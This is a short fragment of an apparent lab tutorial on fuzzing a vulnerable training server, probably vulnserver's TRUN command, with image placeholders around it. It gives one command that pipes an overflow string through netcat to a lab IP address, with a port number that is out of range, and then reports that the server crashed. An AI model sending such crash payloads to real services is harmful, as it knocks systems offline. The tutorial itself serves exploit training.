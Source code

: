         <figure><img src="../../../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

        copy this payload or replace payload from pattern\_create and try send it by terminal

        ```python
        echo -e "TRUN / .:/AAAAAAAAAAAAAAAAAAAAAAAA" | nc 10.0.2.4 99999 
        ```

        <figure><img src="../../../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

        then look :) the server is crashed

        <figure><img src="../../../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>
